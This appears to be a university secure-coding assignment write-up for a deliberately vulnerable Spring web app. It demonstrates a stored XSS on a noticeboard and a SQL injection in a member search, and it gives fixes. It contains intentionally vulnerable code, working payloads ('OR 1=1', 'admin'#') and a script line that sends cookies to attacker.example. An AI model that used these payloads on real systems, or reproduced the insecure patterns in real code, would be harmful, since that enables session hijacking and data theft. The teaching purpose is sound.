# CampusConnect — Vulnerable Application

**SIT218/SIT738 Secure Coding — Task 7.3HD, Task 1**

This document tracks the vulnerabilities demonstrated in `vulnerable-webapp`, one section per vulnerability, following the pattern: **feature built → normal functionality confirmed → vulnerability introduced → attack demonstrated → source code located.**

> **Evidence folder convention:** All screenshots referenced below live in ``. Filenames follow the pattern `T1-{vuln#}{letter}_{description}.png`. Update the image paths below if your repo structure differs.

---

## Table of Contents

- [6.3 — Stored XSS (Club Noticeboard)](#63--stored-xss-club-noticeboard)
- [6.4 — SQL Injection (Member Search)](#64--sql-injection-member-search)

---

## 6.3 — Stored XSS (Club Noticeboard)

### Objective
Demonstrate a stored cross-site scripting vulnerability in the Club Noticeboard feature.

### Location
| | |
|---|---|
| Vulnerable code | `src/main/resources/templates/noticeboard/index.html` (line ~40, `th:utext`) |
| Entry point | `src/main/java/com/campusconnect/controller/NoticeboardController.java`, `createPost()` |

### Vulnerable code

```html
<p th:utext="${post.content}">Content</p>
```

```java
@PostMapping
public String createPost(@RequestParam String authorUsername,
                          @RequestParam String content) {
    Post post = new Post(authorUsername, content);
    postRepository.save(post);
    return "redirect:/noticeboard";
}
```

### Why vulnerable
- `content` is taken directly from the HTTP request with **no server-side validation or sanitization**.
- It is saved to the database unmodified.
- When rendered, `th:utext` ("unescaped text") writes the string as raw HTML instead of Thymeleaf's safe default (`th:text`, which HTML-encodes `<`, `>`, `&`, etc.).
- Any HTML/JavaScript submitted by a user is therefore interpreted and executed by the browser of every subsequent visitor.

### Attack input
| Field | Value |
|---|---|
| Author | `attacker` |
| Message | `<script>alert("You have been hacked!");</script>` |

### Attack procedure
1. Submit the payload via the noticeboard form (`POST /noticeboard`).
2. Payload is stored in the `posts` table, byte-for-byte, unmodified.
3. Any user — including the attacker, and including future visitors — who loads `GET /noticeboard` triggers execution.

### Expected vs. actual result
| | |
|---|---|
| **Expected (secure) behaviour** | Message displays as literal text, script tag not executed |
| **Actual (vulnerable) result** | Browser executes the injected `<script>` tag; alert box fires |

### Security impact
Because this is **stored** (persistent), not reflected, the payload executes for *every* visitor to the noticeboard — not just the person who submitted it. In a real attack, `alert()` would be replaced with something like:
```html
<script>fetch('https://attacker.example/steal?c=' + document.cookie)</script>
```
silently exfiltrating session cookies from any member (including admins) who views the page, enabling session hijacking.

### Evidence

| Screenshot | Description |
|---|---|
|  | `T1-00` — Noticeboard UI baseline, empty state |
|  | `T1-01a` — Empty noticeboard before any posts |
|  | `T1-01b` — Legitimate `bob_smith` post displaying correctly (proves feature works before attack) |
|  | `T1-01c` — Malicious `<script>` payload entered into the form, pre-submit |
|  | `T1-01d` — JavaScript alert box firing, confirming execution |
|  | `T1-01e` — Raw HTTP response source showing the unescaped `<script>` tag |
|  | `T1-01f` — Source: `index.html`, `th:utext` line highlighted |
|  | `T1-01g` — Source: `NoticeboardController.java`, `createPost()` showing no input validation |

### Planned prevention (Task 3)
Replace `th:utext` with `th:text` (Thymeleaf's default HTML-escaping behaviour), combined with server-side input validation via Spring's Hibernate Validator.

---

## 6.4 — SQL Injection (Member Search)

### Objective
Demonstrate a SQL Injection vulnerability in the "Find a Member" search feature.

### Location
| | |
|---|---|
| Vulnerable code | `src/main/java/com/campusconnect/service/MemberSearchService.java`, `vulnerableSearchByUsername()` |
| Entry point | `src/main/java/com/campusconnect/controller/MemberController.java`, `search()` |
| Safe method kept for comparison | `src/main/java/com/campusconnect/repository/MemberRepository.java`, `findByUsername()` (parameterized, Task 3 will restore this) |

### Vulnerable code

```java
@SuppressWarnings("unchecked")
public List<Member> vulnerableSearchByUsername(String username) {
    String sql = "SELECT * FROM members WHERE username = '" + username + "'";
    Query query = entityManager.createNativeQuery(sql, Member.class);
    return query.getResultList();
}
```

```java
@GetMapping("/results")
public String search(@RequestParam(required = false) String username, Model model) {
    if (username != null && !username.isBlank()) {
        List<Member> results = memberSearchService.vulnerableSearchByUsername(username);
        model.addAttribute("results", results);
        model.addAttribute("searchedUsername", username);
    }
    return "members/search";
}
```

### Why vulnerable
User-supplied `username` is concatenated directly into a native SQL string with **no parameterization, escaping, or validation**. Any SQL metacharacters in the input (quotes, boolean operators, comment syntax) are interpreted as part of the query itself rather than as literal search text.

> **Note:** Spring Data JPA's `@Query` annotation is resistant to injection by design — it still parameterizes under the hood even with a raw SQL string. A genuinely exploitable query requires dropping to a raw `EntityManager` native query built via string concatenation, as shown above. This is realistic: it mirrors a common real-world mistake of dropping to raw SQL "for flexibility."

### Attack inputs

| Payload | Purpose |
|---|---|
| `' OR '1'='1` | Full boolean bypass — dumps every row |
| `admin'#` | Targeted extraction — returns exactly the `admin` record |

### Attack breakdown — boolean bypass

Query template:
```sql
SELECT * FROM members WHERE username = '<user input>'
```
With input `' OR '1'='1`:
```sql
SELECT * FROM members WHERE username = '' OR '1'='1'
```
- The attacker's `'` closes the string literal early.
- `OR '1'='1'` is a condition that is always `TRUE`.
- `TRUE OR anything` evaluates to `TRUE` for every row → the `WHERE` clause matches the entire table.

### Attack breakdown — targeted extraction

With input `admin'#`:
```sql
SELECT * FROM members WHERE username = 'admin'#'
```
`#` is MariaDB's single-line comment marker — everything after it (including the trailing quote the application appended) is ignored. This returns exactly the `admin` row, as if the attacker had queried for it directly.

> **Note on comment syntax:** MariaDB's `--` comment style requires a trailing space to register; without it, a syntax error occurs (`... near '''`). `#` requires no trailing whitespace, making it more reliable when passed through HTML forms/URL encoding, where trailing spaces are easily dropped. This was confirmed during testing — see the failed-attempt evidence below.

### Expected vs. actual result
| | |
|---|---|
| **Expected (normal input)** | Zero or one matching member returned |
| **Actual (`' OR '1'='1`)** | All 5 seeded members returned, including `admin` |
| **Actual (`admin'#`)** | Exactly one result — the `admin` record, extracted in isolation |

### Security impact
An attacker can enumerate the entire user base — including the `admin` account — with **no authentication required**. The same technique could be extended (e.g. via `UNION SELECT`) to extract data from other tables entirely, or, depending on database permissions, to modify or delete data.

### Evidence

| Screenshot | Description |
|---|---|
|  | `T1-02a` — Empty search form |
|  | `T1-02b` — Valid search (`alice_wong`), one clean result |
|  | `T1-02c` — Search for non-existent username, "not found" message |
|  | `T1-02d` — Normal search still functions correctly after vulnerable code introduced |
|  | `T1-02e` — `' OR '1'='1` entered into the search box |
|  | `T1-02f` — All 5 members returned, warning banner visible |
|  | `T1-02g` — `admin'#` returning exactly the admin record |
|  | `T1-02h` — Eclipse console showing the raw injected SQL executed by MariaDB |
|  | `T1-02i` — Source: `MemberSearchService.java`, concatenation line highlighted |
|  | `T1-02j` — Source: `MemberController.java`, `search()` calling the vulnerable service |

### Planned prevention (Task 3)
Replace the native concatenated query with Hibernate ORM's parameterized derived query method (`findByUsername`, already present in `MemberRepository` for direct before/after comparison), or an HQL query using named parameters.

---

## Evidence Checklist (Task 1)

| ID | Vulnerability | Vulnerable code demonstrated | Attack demonstrated | Source location documented | Status |
|---|---|---|---|---|---|
| T1-01 | Stored XSS | ✅ | ✅ | ✅ | Complete |
| T1-02 | SQL Injection | ✅ | ✅ | ✅ | Complete |
| T1-03 | CSRF | ⬜ | ⬜ | ⬜ | Pending |
| T1-04 | Data Aggregation | ⬜ | ⬜ | ⬜ | Pending |
| T1-05 | Unrestricted File Upload | ⬜ | ⬜ | ⬜ | Pending |
| T1-06 | SSRF (SIT738) | ⬜ | ⬜ | ⬜ | Pending |